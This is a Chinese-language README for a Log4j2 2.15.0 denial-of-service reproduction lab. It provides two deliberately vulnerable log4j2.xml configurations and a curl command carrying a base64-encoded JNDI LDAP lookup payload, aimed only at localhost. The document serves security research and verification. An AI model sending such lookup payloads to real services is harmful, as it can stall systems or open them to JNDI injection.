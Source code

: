# Log4j2 Dos Verification

Fork from https://github.com/EmYiQing/Log4j2DoS

漏洞环境仅用于安全研究，禁止非法用途，造成的后果使用者负责

## 背景

Log4j2.15.0 有DOS风险。

2.15.0以下版本，如果使用ThreadContext来记录日志，如在日志pattern中有 ${ctx:xxx}，并且调用 ThreadContext.put{“xxx”,“用户可控数据”}， 添加JVM参数和环境变量无效

2.15.0默认配置不存在dos风险，但如果使用了lookup功能，或者使用ThreadContext打印日志，也存在DOS安全风险

## 复现 

### 第一种情况
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout>
                <pattern>%d %p %c{1.} [%t] $${ctx:message} %m%n</pattern>
            </PatternLayout>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

注: message需要base64encode




### 第二种情况


漏洞复现URL：`http://localhost:8080/poc1?message=payload`
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

漏洞复现URL：`http://localhost:8080/poc2?message=payload`

注: message需要base64encode

### 测试用例

1. 本地起一个http服务，python -m http.server 7777

2. 发起payload
curl http://127.0.0.1:8080/test\?message\=JHtqbmRpOmxkYXA6Ly8xMjcuMC4wLjE6Nzc3N30=

3. 查看console和http记录，可以发现请求keep alive, 被阻塞了，故存在dos风险

![](./assets/http_response.png)
